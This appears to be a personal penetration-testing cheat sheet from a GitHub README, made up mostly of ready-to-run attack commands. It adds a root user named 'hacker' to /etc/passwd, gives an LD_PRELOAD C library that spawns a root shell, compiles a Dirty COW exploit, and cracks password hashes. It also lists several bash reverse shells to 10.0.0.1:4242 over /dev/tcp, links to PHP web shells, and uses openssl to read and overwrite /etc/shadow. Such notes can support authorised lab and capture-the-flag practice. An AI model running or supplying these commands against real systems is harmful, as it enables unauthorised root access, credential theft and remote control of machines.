 # Tracking the Various Tips and Tracks learned along the way


### Adding a user to /etc/passwd  

```bash
echo hacker:$(( echo '$1$mysalt$7DTZJIc9s6z60L6aj0Sui.') 2>/dev/null):0:0::/:/bin/bash >> passwd
tar -cvf passwd.tar passwd
tar -xvf passwd.tar -C /etc/
```

### Finding SUID   

- `find / -perm -u=s -type f 2>/dev/null`
- `find / -type f -perm -4000 2>/dev/null`

  
### Compiling a shell  

```c
/*
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
used to LD_PRELOAD shell.so
*/

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
EOF
```

`gcc cowroot.c -o cowroot -pthread`
### Cracking Passwords with John  

- `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format:RAW-SHA1`
- `john --list=formats`
- [Hash Formats](https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)
- [hash-identifier](https://hashes.com/en/tools/hash_identifier)

### Cracking Passwords with Hashcat

- [Examples](https://hashcat.net/wiki/doku.php?id=example_hashes)

### Upgrading a shell

- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `python -c 'import pty; pty.spawn("/bin/sh")'`

### Reverse Shells

- `bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
- `0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196`
- `/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1`
- https://github.com/flozz/p0wny-shell
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### Nmap Scans

- `sudo nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p-`

### File Transferring

- `python3 -m http.server 80`

### Wordpress Vulnerability Scans

`wpscan --url 10.x.x.x`

### Overwriting /etc/shadow with OpenSSL

```bash
# Create keys in /tmp for easy access
cd /tmp
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

# Switch serving directory to /
cd /

# Start https content server with generated certs
openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP

# In another local shell, retrieve /etc/shadow
curl -k https://localhost:1337/etc/shadow

# Modify root password with `hash:password` - `$1$mysalt$7DTZJIc9s6z60L6aj0Sui.` = myhackerpass
# Alternatively - openssl passwd -6 -salt xyz  yourpass ; -6 = SHA-512, -5 = SHA-256 and -1 = MD5

# Encrypt shadow file
openssl smime -encrypt -aes256 -in /tmp/shadow -binary -outform DER -out /tmp/shadow.enc /tmp/cert.pem

# Set back to root directory for restoring /etc/shadow
cd /

# Restore encrypted shadow file to /etc/shadow
openssl smime -decrypt -in /tmp/shadow.enc -inform DER -inkey /tmp/key.pem -out /etc/shadow
```
